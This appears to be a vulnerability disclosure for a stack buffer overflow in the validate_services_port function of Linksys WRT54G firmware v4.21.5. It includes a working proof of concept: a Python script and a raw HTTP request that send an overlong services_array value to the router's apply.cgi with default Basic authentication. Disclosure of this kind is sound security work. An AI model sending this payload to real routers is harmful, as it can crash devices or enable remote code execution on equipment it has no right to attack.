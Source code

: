 # Overview
Product overview [https://store.linksys.com/support-product?sku=WRT54G](https://store.linksys.com/support-product?sku=WRT54G)

# Affected version
Linksys WRT54G Firmware v4.21.5
# Vulnerability details
The Linksys WRT54G Firmware v4.21.5 has a stack overflow vulnerability in validate_services_port function. The variable `services_array`receives the parameter from a POST request.  In line 55, the sscanf function parse POST parameter to v22. the v22 variable is stack-allocated and has a size of only 80 characters. If the variable exceeds this length, it can result in a buffer overflow vulnerability, potentially leading to remote code execution or denial-of-service attacks.  ![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723539680779-8e6e55c4-873d-4b66-9524-c8699c3c0485.png#averageHue=%23fefefe&clientId=udff17b68-8ebb-4&from=paste&height=377&id=uc73b9e8a&originHeight=761&originWidth=1247&originalType=binary&ratio=1&rotation=0&showTitle=false&size=79662&status=done&style=none&taskId=u319299d9-3363-402e-88bd-d0bac8dcc79&title=&width=618)
# POC
```python
import requests

url = 'http://192.168.1.1/apply.cgi'
headers = {
    'Host': '192.168.1.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.1.1',
    'Authorization': 'Basic OmFkbWlu',
    'Connection': 'close',
    'Referer': 'http://192.168.1.1/WanMAC.asp',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1',
}

payload = ('submit_button=Port_Services&submit_type=save_services&action=Apply&change_action=gozila_cgi&services_array=1:1:1:111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&services_length=1')

response = requests.post(url, headers=headers, data=payload)

print('Status:', response.status_code)
print('Response:', response.text)

```
```
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 197
Origin: http://192.168.1.1
Authorization: Basic OmFkbWlu
Connection: close
Referer: http://192.168.1.1/WanMAC.asp
Upgrade-Insecure-Requests: 1
Priority: u=1

submit_button=Port_Services&submit_type=save_services&action=Apply&change_action=gozila_cgi&services_array=1:1:1:111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&services_length=1
```


